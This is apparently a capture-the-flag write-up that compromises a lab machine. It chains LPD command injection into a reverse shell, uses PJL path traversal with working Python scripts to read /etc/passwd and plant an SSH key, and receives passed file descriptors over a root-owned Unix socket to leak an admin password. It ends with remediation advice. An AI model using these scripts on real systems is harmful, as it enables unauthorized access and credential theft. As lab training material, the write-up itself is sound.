









## Successful Approach-User flag
- Let's start with the port scan:
    - 
    - Seems like a web service is on, let's add to `/etc/hosts` and visit
- We see this:
    - 
      <span class="caption">The intake portal describes its own stack: an RFC 1179 (LPD) print queue named `archive_intake`, handled by `paperwork-archive-v1.02`, the archive we download and read next.</span>
- We can download the `paperwork-archive-v1.02` and extract to see that there is a `server.py` file for us to analyze
- We see that the server serves a LPD service (old Unix printing service), and we can interact via port 1515 (not by browser), which it is obvious that command injection might be able to be achieved in this line:
    - 
    - We might be able to escape the ', leading to RCE in {job_name} field
- But first, we need to understand how the server interacts with us, and craft a script to automate the rev shell process:
    - 
        - This means the data we send at first, needs to be 2 in bytes, which is \x02
    - 
        - After just sending \x02, we see that the server demands a new flow of data, which we know that we need a subcommand (but it does not check for any, so we send any of the bytes again for the subcmd (in this case a \x02). Then, we see that it checks for the CONTENT size after our subcmd (the content is what we want to inject, in this case:
            - 
            - We want it to start with J because we have:
            - 
    - Lastly we just send our rev shell control payload and start a listener to grab the shell!
- We are in, but we aren't even a user, after enumerating we find a user called `archivist` in `/home`, I'm pretty sure that is the foothold.
- From `ps -u archivist -f`, we see that `archivist` is running `jetdirect.py`
- Let's write a `pjl.py` to contact with the internal because the shell has no `nc`, `telnet` or anything useful for socketing ;-;
```python
import socket, sys
UEL = b"\x1b%-12345X"
def send(payload):
    s = socket.socket(); s.connect(("127.0.0.1", 9100))
    s.sendall(UEL + payload + b"\r\n" + UEL)
    s.settimeout(2)
    out = b""
    try:
        while True:
            d = s.recv(4096)
            if not d: break
            out += d
    except socket.timeout: pass
    s.close(); return out
print(send(sys.argv[1].encode()))
```

- Test if it works: `python3 /tmp/pjl.py '@PJL INFO ID'` shows the printer info
- So we can try if path traversal works:
    - `python3 /tmp/pjl.py '@PJL FSUPLOAD NAME="0:..\..\..\..\..\..\..\etc\passwd" OFFSET=0 SIZE=2000'` this successfully shows whats inside `/etc/passwd`, so immediately I thought that we might be able to leak some info of `archivist` via the python code it is running
- `python3 /tmp/pjl.py '@PJL FSUPLOAD NAME="0:..\..\..\..\..\..\..\home\archivist\printer\jetdirect.py" OFFSET=0 SIZE=30000'`
    - Shows the source: (this is extremely important for writing out the following script, first lookat the regex)
```python
m = re.search(r'NAME\s*=\s*"([^"]+)"\s*SIZE\s*=\s*(\d+)', command, re.I)
```

- This regex explicitly tells us that the format what `cmd` needs to be
- First, we can do `ssh-keygen -t ed25519 -f ./archivist_key -N ""` on our own computer to generate a ssh keypair for FIDO login, then we copy the pubkey and put it in the bottom file
- So now, we try to write a script that stores this pubkey inside `\home\archivist\.ssh\authorized_keys`
 s.t. FIDO login from outside can be done
```python
cat > /tmp/putkey.py << 'EOF'
import socket
UEL = b"\x1b%-12345X"
pubkey = b"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIxkH8WTjPrr2OKD44ylKA8yt24m7/n+d9aCAAU7r/a+ kali@kali\n"
name = rb"0:..\..\..\..\..\..\..\home\archivist\.ssh\authorized_keys"

cmd = b'@PJL FSDOWNLOAD NAME="%s" SIZE=%d\r\n' % (name, len(pubkey))

s = socket.socket(); s.connect(("127.0.0.1", 9100))
s.sendall(UEL + cmd + pubkey + UEL)
s.settimeout(2)

try:
    print("resp:", s.recv(4096))
except: pass
s.close()

EOF

python3 /tmp/putkey.py
```

- Now we can use `ssh -i archivist_key archivist@10.1...` to login as archivist
    - But first I want to note how this script is written:
        - The UEL (Universal Exit Language)
            - 
              <span class="caption">PJL's Universal Exit Language sequence is `<ESC>%-12345X`. In Python that's `b"\x1b%-12345X"`, which wraps every PJL job the scripts send.</span>
            - Where ESC here is just \x1b in hex
        - rb"0:..."
            - r is raw string, so it wont get escaped by Python
            - b is bytes
            - 0: is the volume of the printer, just like C: or D: for disks, but why 0:? Because in `jetdirect.py` there is a line `clean = path.replace("0:", "").replace("\\", "/").lstrip
`, it scraps away the 0: so we know. 
            - Also, from the replace, we can derive the path traversal syntax
            
## Root Flag
- Let's start to enumerate some running processes by root and see if we can inject anything inside the running process to make us root
    - `ps aux | grep root | grep -v "\[" | grep -v grep`
    - `ss -xlp` we can also use this to list all unix sockets
- We can see there is `root        1489  0.0  0.4  28432 17980 ?        Ss   14:25   0:00 /usr/bin/python3 /usr/bin/paperwork-daemon` that is pretty suspicious that is run by root
- Let's `cat` it:
    - 
      <span class="caption">The `paperwork-daemon` source. When `scan_for_malice()` finds an FS command in the log, `trigger_lockdown()` replies with two open file descriptors attached via `SCM_RIGHTS`: the log and `admin_fd`, which holds `ADMIN_PASSWORD`. `leak.py` reads that second descriptor.</span>
- We see a bunch of useful info, this seems like it wants us to connect to its socket, and try to dump the admin password. Already see that the socket_path is there, so let's try to `nc` to it!
- `nc -U /run/paperwork/mgmt.sock` but there is no `nc` ;-;
- Let's use another `socat - UNIX-CONNECT:/run/paperwork/mgmt.sock` and this works, but it replies:
    - `ALERT: SECURITY_VIOLATION. FORENSIC_CONTEXT_ATTACHED.`
- This means we need to read thouroughly of the source
- Check this out:
```python
def scan_for_malice():
    with open(LOG_PATH, 'r') as f:
        content = f.read().upper()
        if any(trigger in content for trigger in ["FSQUERY", "FSUPLOAD", "FSDOWNLOAD"]):
            return True
```
- So if we do not have "FS..." inside `commands.log` then it will scan us for malice and reject us, thus we first do:
    - `echo "FSUPLOAD" >> commands.log`
```python
cat > /tmp/leak.py << 'EOF'
import socket, array, os

s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect("/run/paperwork/mgmt.sock")

# space to receive up to 2 ints (file descriptors)
fds = array.array("i")
msg, ancdata, flags, addr = s.recvmsg(4096, socket.CMSG_LEN(2 * fds.itemsize))
print("banner:", msg)

for level, ctype, cdata in ancdata:
    if level == socket.SOL_SOCKET and ctype == socket.SCM_RIGHTS:
        fds.frombytes(cdata[:len(cdata) - (len(cdata) % fds.itemsize)])

print("got fds:", list(fds))
for fd in fds:
    try:
        # read from the passed descriptor — permissions don't apply, it's already open
        data = os.pread(fd, 4096, 0)
        print(f"--- fd {fd} ---")
        print(data.decode(errors="replace"))
    except Exception as e:
        print(f"fd {fd} read error: {e}")
s.close()
EOF
python3 /tmp/leak.py
```
- Receive the admin pwd and let's `su root` for the flag!

## Remediation

- **Don't build shell commands from the LPD job name.** The foothold was command injection in `{job_name}` — the server put a client-controlled field straight into a shell. Use an argument vector and validate the field; never expose a real printing/LPD stack to untrusted input.
- **PJL filesystem access + no path validation = arbitrary read/write.** `FSUPLOAD`/`FSDOWNLOAD` with `0:..\..\..\etc\passwd` read and wrote anywhere, which is how the SSH key landed in `archivist`'s `authorized_keys`. Disable PJL filesystem commands, or confine them to a chrooted spool with canonicalized paths that reject traversal.
- **Don't pass privileged file descriptors to unauthenticated local clients.** Root fell because the mgmt socket sent root-opened fds via `SCM_RIGHTS`, so `os.pread(fd, ...)` read the admin password regardless of the caller's permissions. Authenticate clients on the socket, restrict it with filesystem permissions, and don't hand out descriptors to files the peer couldn't open itself. The "malice scan" over `commands.log` was trivially satisfied by appending `FSUPLOAD`, so don't rely on log-content checks as a control.

### References

- [OWASP — OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [PRET / printer exploitation background (PJL filesystem)](https://github.com/RUB-NDS/PRET)
- [unix(7) — SCM_RIGHTS ancillary data](https://man7.org/linux/man-pages/man7/unix.7.html)
